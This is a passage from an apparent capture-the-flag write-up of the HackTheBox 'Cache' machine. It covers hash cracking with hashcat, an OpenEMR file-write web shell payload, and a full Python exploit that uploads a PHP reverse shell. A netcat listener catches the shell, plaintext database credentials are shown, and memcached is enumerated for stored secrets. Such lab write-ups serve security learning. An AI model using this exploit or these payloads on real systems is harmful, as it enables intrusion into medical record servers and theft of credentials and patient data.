| automatic_notification                |
| background_services                   |
| batchcom                              |
| billing                               |
| calendar_external                     |
| categories                            |
| categories_seq                        |
| categories_to_documents               |
| ccda                                  |
| ccda_components                       |
| ccda_field_mapping                    |
| ccda_sections                         |
| ccda_table_mapping                    |
| chart_tracker                         |
| claims                                |
| clinical_plans                        |
| clinical_plans_rules                  |
| clinical_rules                        |
| clinical_rules_log                    |
| code_types                            |
| codes                                 |
| codes_history                         |
| config                                |
| config_seq                            |
| customlists                           |
| dated_reminders                       |
| dated_reminders_link                  |
| direct_message_log                    |
| documents                             |
| documents_legal_categories            |
| documents_legal_detail                |
| documents_legal_master                |
| drug_inventory                        |
| drug_sales                            |
| drug_templates                        |
| drugs                                 |
| eligibility_response                  |
| eligibility_verification              |
| employer_data                         |
| enc_category_map                      |
| erx_drug_paid                         |
| erx_narcotics                         |
| erx_rx_log                            |
| erx_ttl_touch                         |
| esign_signatures                      |
| extended_log                          |
| external_encounters                   |
| external_procedures                   |
| facility                              |
| facility_user_ids                     |
| fee_sheet_options                     |
| form_care_plan                        |
| form_clinical_instructions            |
| form_dictation                        |
| form_encounter                        |
| form_eye_mag                          |
| form_eye_mag_dispense                 |
| form_eye_mag_impplan                  |
| form_eye_mag_orders                   |
| form_eye_mag_prefs                    |
| form_eye_mag_wearing                  |
| form_functional_cognitive_status      |
| form_group_attendance                 |
| form_groups_encounter                 |
| form_misc_billing_options             |
| form_observation                      |
| form_reviewofs                        |
| form_ros                              |
| form_soap                             |
| form_taskman                          |
| form_vitals                           |
| forms                                 |
| gacl_acl                              |
| gacl_acl_sections                     |
| gacl_acl_seq                          |
| gacl_aco                              |
| gacl_aco_map                          |
| gacl_aco_sections                     |
| gacl_aco_sections_seq                 |
| gacl_aco_seq                          |
| gacl_aro                              |
| gacl_aro_groups                       |
| gacl_aro_groups_id_seq                |
| gacl_aro_groups_map                   |
| gacl_aro_map                          |
| gacl_aro_sections                     |
| gacl_aro_sections_seq                 |
| gacl_aro_seq                          |
| gacl_axo                              |
| gacl_axo_groups                       |
| gacl_axo_groups_map                   |
| gacl_axo_map                          |
| gacl_axo_sections                     |
| gacl_groups_aro_map                   |
| gacl_groups_axo_map                   |
| gacl_phpgacl                          |
| geo_country_reference                 |
| geo_zone_reference                    |
| globals                               |
| gprelations                           |
| history_data                          |
| icd10_dx_order_code                   |
| icd10_gem_dx_10_9                     |
| icd10_gem_dx_9_10                     |
| icd10_gem_pcs_10_9                    |
| icd10_gem_pcs_9_10                    |
| icd10_pcs_order_code                  |
| icd10_reimbr_dx_9_10                  |
| icd10_reimbr_pcs_9_10                 |
| icd9_dx_code                          |
| icd9_dx_long_code                     |
| icd9_sg_code                          |
| icd9_sg_long_code                     |
| immunization_observation              |
| immunizations                         |
| insurance_companies                   |
| insurance_data                        |
| insurance_numbers                     |
| issue_encounter                       |
| issue_types                           |
| lang_constants                        |
| lang_custom                           |
| lang_definitions                      |
| lang_languages                        |
| layout_group_properties               |
| layout_options                        |
| lbf_data                              |
| lbt_data                              |
| list_options                          |
| lists                                 |
| lists_touch                           |
| log                                   |
| log_comment_encrypt                   |
| log_validator                         |
| medex_icons                           |
| medex_outgoing                        |
| medex_prefs                           |
| medex_recalls                         |
| misc_address_book                     |
| module_acl_group_settings             |
| module_acl_sections                   |
| module_acl_user_settings              |
| module_configuration                  |
| modules                               |
| modules_hooks_settings                |
| modules_settings                      |
| multiple_db                           |
| notes                                 |
| notification_log                      |
| notification_settings                 |
| onotes                                |
| onsite_documents                      |
| onsite_mail                           |
| onsite_messages                       |
| onsite_online                         |
| onsite_portal_activity                |
| onsite_signatures                     |
| openemr_module_vars                   |
| openemr_modules                       |
| openemr_postcalendar_categories       |
| openemr_postcalendar_events           |
| openemr_postcalendar_limits           |
| openemr_postcalendar_topics           |
| openemr_session_info                  |
| patient_access_offsite                |
| patient_access_onsite                 |
| patient_birthday_alert                |
| patient_data                          |
| patient_portal_menu                   |
| patient_reminders                     |
| patient_tracker                       |
| patient_tracker_element               |
| payment_gateway_details               |
| payments                              |
| pharmacies                            |
| phone_numbers                         |
| pma_bookmark                          |
| pma_column_info                       |
| pma_history                           |
| pma_pdf_pages                         |
| pma_relation                          |
| pma_table_coords                      |
| pma_table_info                        |
| pnotes                                |
| prescriptions                         |
| prices                                |
| procedure_answers                     |
| procedure_order                       |
| procedure_order_code                  |
| procedure_providers                   |
| procedure_questions                   |
| procedure_report                      |
| procedure_result                      |
| procedure_type                        |
| product_registration                  |
| product_warehouse                     |
| registry                              |
| report_itemized                       |
| report_results                        |
| rule_action                           |
| rule_action_item                      |
| rule_filter                           |
| rule_patient_data                     |
| rule_reminder                         |
| rule_target                           |
| shared_attributes                     |
| standardized_tables_track             |
| supported_external_dataloads          |
| syndromic_surveillance                |
| template_users                        |
| therapy_groups                        |
| therapy_groups_counselors             |
| therapy_groups_participant_attendance |
| therapy_groups_participants           |
| transactions                          |
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
```

Next I dumped the user\_secure table because that sounded quite promising. I also tried dumping other interesting sounding tables such as `notes` and `users_facility` but they were empty.

insert table data

```sql
```
[09:18:34] [INFO] fetching entries for table 'users_secure' in database 'openemr'                      
Database: openemr
Table: users_secure
[1 entry]
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
```
```

The table contained information about a `openemr_admin` user, including a bcrypt hashed password. I loaded the hash into hashcat and it cracked almost imediately.

```text
zweilos@kali:~/htb/cache/results/10.10.10.188/scans$ hashcat -m 3200 -a 0 '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.' /home/zweilos/rockyou_utf8.txt 
hashcat (v6.0.0) starting...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /home/zweilos/rockyou_utf8.txt
* Passwords.: 14344373
* Bytes.....: 140056879
* Keyspace..: 14344373

$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx

Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEc...F6P0B.
Time.Started.....: Mon Aug 10 09:35:23 2020 (1 sec)
Time.Estimated...: Mon Aug 10 09:35:24 2020 (0 secs)
Guess.Base.......: File (/home/zweilos/rockyou_utf8.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2450 H/s (12.06ms) @ Accel:8 Loops:32 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 864/14344373 (0.01%)
Rejected.........: 0/864 (0.00%)
Restore.Point....: 832/14344373 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-32
Candidates.#1....: michelle1 -> felipe

Started: Mon Aug 10 09:35:21 2020
Stopped: Mon Aug 10 09:35:25 2020
```

This was one lazy admin. The password was `xxxxxx`.











can edit files in `/var/www/hms.htb/public_html/sites/default`

according to vulnerability report pdf can read and write arbitrary files on the filesystem with:

* `mode=get&docid=/etc/passwd`
* `mode=save&docid=rce.php&content=<?php phpinfo();?>`

  on the page `/portal/import_template.php`







Got `/etc/passwd`, can see that `luffy`, `ash`, and `root` are the only users that can log in. Played around with running commands with a simple shell, then remembered that I had downloaded a python exploit that required authentication to the portal to work. `mode=save&docid=rce.php&content=<?php system($_GET["evil"]); ?>`

```python
# Title: OpenEMR 5.0.1 - Remote Code Execution
# Exploit Author: Musyoka Ian
# Date: 2020-05-25
# Title: OpenEMR < 5.0.1 - Remote Code Execution
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
# Version: < 5.0.1 (Patch 4)
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
# References: https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69

# openemr_exploit.py

#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import requests
import time

auth = "[+] Authentication with credentials provided please be patient"
upload = "[+] Uploading a payload it will take a minute"
netcat = "[+] You should be getting a shell"
s = requests.Session()
payload = {'site': 'default', 'mode' : 'save', 'docid' : 'shell.php', 'content' : """<?php

set_time_limit (0);
$VERSION = "1.0";
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> """}
print (auth)
url = "http://hms.htb/interface/main/main_screen.php?auth=login&site=default"
data= {
    'new_login_session_management' : '1',
    'authProvider' : 'Default',
    'authUser' : 'openemr_admin', # change this to the the appropriate username
    'clearPass' : 'xxxxxx',       # change this to the appropriate password 
    'languageChoice' : '1',
    }
    
response = s.post(url, data=data,).text
time.sleep(2)
print (upload)
time.sleep(2)
resp = s.post("http://hms.htb/portal/import_template.php?site=default", data = payload)
time.sleep(2)
print (netcat)
rev_shell = s.get("http://hms.htb/portal/shell.php")
print (rev_shell.text)
```

Now that I had valid credentials to the portal, I could use exploit.py from earlier POC - modified a bit to work in this situation. After taking a bit to upload the file, a shell was returned to me

## Initial Foothold

ran the exploit

```text
zweilos@kali:~/htb/cache$ vim exploit.py 
zweilos@kali:~/htb/cache$ python3 ./exploit.py 
[+] Authentication with credentials provided please be patient
[+] Uploading a payload it will take a minute
[+] You should be getting a shell
```

then in my other terminal

```text
zweilos@kali:~/htb/cache/results/10.10.10.188/scans$ nc -lvnp 12346
listening on [any] 12346 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.188] 34384
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:10:25 up  2:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@cache:/$ ^Z
[1]+  Stopped                 nc -lvnp 12346
zweilos@kali:~/htb/cache/results/10.10.10.188/scans$ stty raw -echo
zweilos@kali:~/htb/cache/results/10.10.10.188/scans$ nc -lvnp 12346

www-data@cache:/$ export TERM=xterm-256color
www-data@cache:/$ clear
```

## Road to User

already had `ash` password

```text
www-data@cache:/dev/shm$ su ash
Password: 
ash@cache:/dev/shm$
```

### Further enumeration

### Finding user creds

### User.txt

```text
ash@cache:/dev/shm$ cat ~/user.txt
d12352c0b83c09a8a46159db535b2776
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User

in `sql/official_additional_users.sql` phimail-service portal-user

/sites/default/sqlconf.php

```php
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = '3open6emr9';
$dbase  = 'openemr';

//Added ability to disable
//utf8 encoding - bm 05-2009
global $disable_utf8_flag;
$disable_utf8_flag = false;

$sqlconf = array();
global $sqlconf;
$sqlconf["host"]= $host;
$sqlconf["port"] = $port;
$sqlconf["login"] = $login;
$sqlconf["pass"] = $pass;
$sqlconf["dbase"] = $dbase;
//////////////////////////
//////////////////////////
//////////////////////////
//////DO NOT TOUCH THIS///
$config = 1; /////////////
//////////////////////////
//////////////////////////
//////////////////////////
?>
```

`openemr:3open6emr9` unfortunately this password does not work for ash or luffy; logs into mysql

linpeas

$2y$04$usesomesillystringfore7hnbRJHxXVLeakoG8K30oukPsA.ztMG = bcrypt hash for "password" bcb04b7e103a0cd8b54763051cef08bc55abe029fdebae5e1d417e2ffb2a00a3

in file: /var/www/hms.htb/public\_html/custom/export\_labworks.php found `openemr:secret` creds for ftp

there is docker running on ip 172.17.0.1

```text
ash@cache:/dev/shm$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:7e:cb brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.188/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:7ecb/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86387sec preferred_lft 14387sec
    inet6 fe80::250:56ff:feb9:7ecb/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:0b:6b:d9:88 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

/var/www/hms.htb/public\_html/docker-compose.yml contains info about all the different databases: root password = root; couchdb = admin:password

### Getting a shell

```text
memcache   959  0.0  0.1 425792  4168 ?        Ssl  13:01   0:03 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
```

Saw memcached in running processes with `ps aux`. didn't have much experience with it before so I started doing some reading to see if there were any privesc routes by using it. It was running on default port 11211. _It also stuck out a bit to me because of the `cache` theme on the box!_

[https://book.hacktricks.xyz/pentesting/11211-memcache](https://book.hacktricks.xyz/pentesting/11211-memcache) memcached ash@cache:/dev/shm$ echo "version" \| nc -vn 127.0.0.1 11211 Connection to 127.0.0.1 11211 port \[tcp/\*\] succeeded! VERSION 1.5.6 Ubuntu

```text
ash@cache:/dev/shm$ echo "stats" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT pid 959
STAT uptime 14741
STAT time 1597079215
STAT version 1.5.6 Ubuntu
STAT libevent 2.1.8-stable
STAT pointer_size 64
STAT rusage_user 1.068598
STAT rusage_system 2.023156
STAT max_connections 1024
STAT curr_connections 1
STAT total_connections 248
STAT rejected_connections 0
STAT connection_structures 2
STAT reserved_fds 20
STAT cmd_get 0
STAT cmd_set 1225
STAT cmd_flush 0
STAT cmd_touch 0
STAT get_hits 0
STAT get_misses 0
STAT get_expired 0
STAT get_flushed 0
STAT delete_misses 0
STAT delete_hits 0
STAT incr_misses 0
STAT incr_hits 0
STAT decr_misses 0
STAT decr_hits 0
STAT cas_misses 0
STAT cas_hits 0
STAT cas_badval 0
STAT touch_hits 0
STAT touch_misses 0
STAT auth_cmds 0
STAT auth_errors 0
STAT bytes_read 37499
STAT bytes_written 9822
STAT limit_maxbytes 67108864
STAT accepting_conns 1
STAT listen_disabled_num 0
STAT time_in_listen_disabled_us 0
STAT threads 4
STAT conn_yields 0
STAT hash_power_level 16
STAT hash_bytes 524288
STAT hash_is_expanding 0
STAT slab_reassign_rescues 0
STAT slab_reassign_chunk_rescues 0
STAT slab_reassign_evictions_nomem 0
STAT slab_reassign_inline_reclaim 0
STAT slab_reassign_busy_items 0
STAT slab_reassign_busy_deletes 0
STAT slab_reassign_running 0
STAT slabs_moved 0
STAT lru_crawler_running 0
STAT lru_crawler_starts 5610
STAT lru_maintainer_juggles 32417
STAT malloc_fails 0
STAT log_worker_dropped 0
STAT log_worker_written 0
STAT log_watcher_skipped 0
STAT log_watcher_sent 0
STAT bytes 371
STAT curr_items 5
STAT total_items 1225
STAT slab_global_page_pool 0
STAT expired_unfetched 0
STAT evicted_unfetched 0
STAT evicted_active 0
STAT evictions 0
STAT reclaimed 0
STAT crawler_reclaimed 0
STAT crawler_items_checked 84
STAT lrutail_reflocked 0
STAT moves_to_cold 1225
STAT moves_to_warm 0
STAT moves_within_lru 0
STAT direct_reclaims 0
STAT lru_bumps_dropped 0
END
```

```text
ash@cache:/dev/shm$ echo "stats slabs" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 0
STAT 1:cmd_set 1235
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048576
END
ash@cache:/dev/shm$ echo "stats cachedump 1 0" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
^C
```

echoing a command to the service running seemed a bit awkward, so I tried running the command like `memcached stats`. It seemed to be doing something, but waited for a long time. I did some more reading and found that you could use telnet to interact with it. _\(I should have tried that on my own...if nc can interact then ssh and telnet should be able to...\)_

[https://niiconsulting.com/checkmate/2013/05/memcache-exploit/](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/) [https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)

```text
ash@cache:/dev/shm$ telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
